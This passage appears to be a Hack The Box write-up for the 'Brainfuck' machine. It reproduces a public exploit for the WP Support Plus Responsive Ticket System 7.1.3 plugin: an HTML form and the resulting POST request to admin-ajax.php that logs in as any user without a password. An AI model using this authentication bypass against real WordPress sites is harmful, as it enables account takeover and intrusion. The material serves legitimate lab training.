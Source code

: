 ```c
┌─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ searchsploit -x php/webapps/41006.txt

# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
# Date: 10-01-2017
# Software Link: https://wordpress.org/plugins/wp-support-plus-responsive-ticket-system/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: web

1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

Then you can go to admin panel.
```
Key take away: You can login as anyone without knowing password because of incorrect usage of `wp_set_auth_cookie()`.

Cool Lets try it out.

The POC is a page which will help generate the correct POST request. I will modify it to put in the correct details.

I will proxy this to `BurpSuite` so that i can see whats happening behind the scenes

The `html` page generates a POST request as below

```php
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: brainfuck.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&email=sth&action=loginGuestFacebook
```
Intercepting the response to this `POST` shows it setting a bunch of cookies.
